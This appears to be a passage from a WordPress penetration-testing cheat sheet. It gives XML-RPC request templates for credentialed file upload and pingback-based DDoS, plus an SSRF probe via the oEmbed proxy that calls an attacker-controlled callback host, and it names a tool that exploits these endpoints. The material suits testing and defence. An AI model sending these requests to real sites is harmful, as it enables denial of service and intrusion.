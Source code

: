Using the correct credentials you can upload a file. In the response the path will appears (https://gist.github.com/georgestephanis/5681982)

<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>

DDOS

<methodCall>
    <methodName>pingback.ping</methodName>
    <params>
        <param><value><string>http://target/</string></value></param>
        <param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
    </params>
</methodCall>

/wp-json/oembed/1.0/proxy - SSRF

Try to access https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net and the Worpress site may make a request to you.

This is the response when it doesn't work:
SSRF
https://github.com/t0gu/quickpress/blob/master/core/requests.go
github.com

This tool checks if the methodName: pingback.ping and for the path /wp-json/oembed/1.0/proxy and if exists, it tries to exploit them.
Automatic Tools
